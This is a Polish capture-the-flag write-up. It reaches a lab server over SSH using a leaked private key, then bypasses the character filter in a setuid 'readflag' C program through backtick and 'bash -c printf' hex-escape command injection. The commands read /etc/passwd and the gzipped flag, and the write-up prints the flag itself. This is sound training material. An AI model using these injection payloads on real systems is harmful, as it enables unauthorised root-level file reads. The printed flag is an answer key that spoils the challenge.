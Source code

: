 # Week 2 Task 2

```ascii
   _____   ______    ____     __ __                  __
  / ___/  / ____/   /  _/  __/ // /_   ____   ___   / /_
  \__ \  / /        / /   /_  _  __/  / __ \ / _ \ / __/
 ___/ / / /___    _/ /   /_  _  __/  / / / //  __// /_
/____/  \____/   /___/    /_//_/    /_/ /_/ \___/ \__/

 _       __     _ __          __  __
| |     / /____(_) /____     / / / /___
| | /| / / ___/ / __/ _ \   / / / / __ \
| |/ |/ / /  / / /_/  __/  / /_/ / /_/ /
|__/|__/_/  /_/\__/\___/   \____/ .___/
                               /_/
```

### **Synopsis**

1. Analiza logów
2. Logowanie SSH
3. Konfiguracja shella
4. Analiza programu C "readflag"
5. Przygotowanie ścieżki do pliku
6. Wypakowanie flagi z gzipa

### **Recon**

Do zadania dostajemy typowy log z serwera HTTP (Apache lub Nginx). Sprawdzając kody odpowiedzi (2xx - pozytywny) można znaleźć jeden interesujący request - `GET /sshauth.php?type=keys&username=alpha`  
Inny request kilka linijek niżej zdradza nazwę hosta: `beta.biedna-firma.com`.  

### **Solving**

#### Klucz RSA - logowanie SSH

Przechodząc pod adres podany w logach otrzymujemy klucz prywatny RSA, którego należy użyć do logowania SSH.

![rsa](./img/rsa.png "rsa")

[id_rsa](./id_rsa)

Nazwą użytkownika, jak adres requesta wskazuje, jest `alpha`.

Logowanie:
```
ssh -i id_rsa alpha@beta.biedna-firma.com
```

Po zalogowaniu i uruchomieniu ls witani jesteśmy niemiłą niespodzianką - polecenie `ls` wykonuje znane niektórym użytkownikom CLI `sl` (steam locomotive) blokując ekran na kilka sekund.  
Całe szczęście jest to jedynie alias powłoki, który można usunąć:
```
$ unalias ls
$ ls -la
drwxr-xr-x 7 root alpha 4096 Nov 11 18:12 .
drwxr-xr-x 3 root root  4096 Oct 28 12:00 ..
dr-x---r-x 2 root root  4096 Nov  8 21:37 .flag
-r--r--r-- 1 root root    12 Oct 28 13:40 .profile
-rw------- 1 root alpha  581 Nov 11 18:01 .viminfo
-r-s--x--- 1 root alpha 7728 Nov  7 19:58 readflag
-r--r--r-- 1 root root   661 Nov  7 19:58 readflag.c
$ ls -la .flag
dr-x---r-x 2 root root  4096 Nov  8 21:37 .
drwxr-xr-x 7 root alpha 4096 Nov 11 18:12 ..
-r-x------ 1 root root    44 Nov  8 10:55 flag.gz
```

Zauważyć można od razu folder `.flag` z plikiem `flag.gz` oraz plik wykonywalny `readflag` (wraz z kodem źródłowym w `readflag.c`).
Jako że `readflag` ma ustawiony [bit setuid](https://en.wikipedia.org/wiki/Setuid), wykonywany będzie z uprawnieniami roota.

#### readflag

```
$ cat readflag.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, ";")!=0;
    r += strstr(cmd, "|")!=0;
    r += strstr(cmd, "&")!=0;
    r += strstr(cmd, "*")!=0;
    r += strstr(cmd, ">")!=0;
    r += strstr(cmd, "<")!=0;
    return r;
}

int main(int argc, char* argv[])
{
    char cmd[128];
    if(filter(argv[1])) return 0;
    printf("OK\n");
    strcpy(cmd,"/bin/cat ");
    strcat(cmd,"/var/www/html/flags/");
    strcat(cmd,argv[1]);
    system( cmd );
    return 0;
}
```

Otworzenie pliku readflag.c pokazuje, że jest to prosty kod w C, który pobiera jeden argument, sprawdza czy nie zawiera on zabronionych znaków i uruchamia `/bin/cat /var/www/html/flags/` z dopisanym na końcu argumentem użytkownika.
Jak więc mamy obejść filtrowanie znaków i uzyskać dostęp do flagi w folderze użytkownika, skoro nie możemy użyć `/` (`../`), `&` ani `|` (`&& cat /home/alpha/.flag/flag.gz`) ani nawet samego słowa `flag`?

#### backtick

Jako że komenda uruchamiana jest w /bin/sh, który na obecnym systemie jest ustawiony jako /bin/dash:
```
$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Oct 28 11:50 /bin/sh -> dash
```
to wiemy, że możemy użyć składni zgodnej z POSIX, w tym backticków, które pozwolą uzyskać uruchamianie własnych komend w środku oryginalnej komendy.
Gdy dodamy `\` aby nie uruchomić ich w obecnym shellu, uzyskujemy wynik dowolnej komendy (w tym przypadku `whoami`):
```
$ ./readflag "\`whoami\`"
OK
/bin/cat: /var/www/html/flags/root: No such file or directory
```
Jednak wciąż nie możemy ominąć filtra, który bezwzględnie blokuje niezbędne znaki.

#### `echo -e` / `printf`

Pierwszym rozwiązaniem które przyszło mi do głowy było `echo -e`, które pozwala wyświetlić "escape sequences (`\x41`)" jako normalne znaki.  
Niestety, mimo że działa to w bashu:
```
$ echo -e "\x41"
A
```
to w dashu taka flaga dla `echo` po prostu nie istnieje i wyświetli ją razem z oryginalnym tekstem.

```
$ ./readflag "\`echo -e "\x41"\`"
OK
/bin/cat: /var/www/html/flags/-e: No such file or directory
/bin/cat: x41: No such file or directory
```

`printf` zachowuje się podobnie i również zwraca oryginalny tekst zamiast znaków reprezentowanych przez sekwencje.

```
$ printf '\x41'
A
$ ./readflag "\`printf '\x41'\`"
OK
/bin/cat: /var/www/html/flags/\x41: No such file or directory
```

#### `bash -c`

Okazuje się jednak, że można te komendy uruchomić za pomocą one-linera w bashu, który po podaniu flagi `-c` oraz argumentu uruchomi ten argument jako komendę.
```
$ ./readflag "\`bash -c \"printf '\x41'\"\`"
OK
/bin/cat: /var/www/html/flags/A: No such file or directory
```

Potrzebne znaki:
```
>>> hex(ord('/'))
'0x2f'
>>> hex(ord('a'))
'0x61'
```

W ten sposób, escapując zakazane znaki można pobrać dowolny plik z systemu:
```
$ ./readflag "\`bash -c \"printf '..\x2f..\x2f..\x2f..\x2fetc\x2fpasswd'\"\`"
OK
root:x:0:0:root:/root:/bin/bash
alpha:x:1000:1001::/home/alpha:/bin/bash
```

```
./readflag "\`bash -c \"printf '..\x2f..\x2f..\x2f..\x2fhome\x2falpha\x2f.fl\x61g\x2ffl\x61g.gz'\"\`"
OK
)�[flag+N��K-�v2	�/0(7�����s
```

### **Results**

Przekierowując wyjście `readflag` do `gunzip` uzyskujemy flagę:
```
$ ./readflag "\`bash -c \"printf '..\x2f..\x2f..\x2f..\x2fhome\x2falpha\x2f.fl\x61g\x2ffl\x61g.gz'\"\`" | gunzip
scinet{B4SH_p0w3R}

gzip: stdin: decompression OK, trailing garbage ignored
```

## Contributing

Jeżeli zauważyłeś/aś błąd lub chcesz dodać swoją wersję rozwiązania - proszę o pull request :)
